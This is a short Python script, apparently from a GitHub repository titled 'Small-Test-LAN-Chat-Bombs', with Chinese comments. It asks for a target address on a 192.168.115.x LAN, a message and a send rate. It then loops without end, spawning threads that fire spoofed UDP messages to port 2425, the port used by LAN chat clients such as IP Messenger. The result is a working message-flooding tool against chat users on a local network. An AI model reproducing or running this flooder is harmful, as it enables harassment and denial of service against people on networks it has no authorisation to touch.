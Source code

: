 # Small-Test-LAN-Chat-Bombs

#这是一个模拟代码
import socket
import time
import threading
# broadcast_ip = "xxx.xxx.xxx.xxx"  #ip 地址
broadcast_ip = input("请输入ip的后两位或者三位：")
broadcast_ip = "192.168.115." + broadcast_ip

# 1. 创建套接字
udp_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
udp_socket.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)
send_data = input("请输入要发送的数据：")
times = int(input("请输入每秒发送次数："))
# time.sleep(1/times)

while True:
    def thread():
        time.sleep(1 / times)
        # send_data = input("请输入要发送的数据：")

        # 3. 发送数据
        msg = "1:%d:6楼:607:32:" % int(time.time()) + send_data
        udp_socket.sendto(msg.encode("gbk"), (broadcast_ip, 2425))
    pp = threading.Thread(target=thread)
    pp.start()

# 6. 关闭套接字
# udp_socket.close()
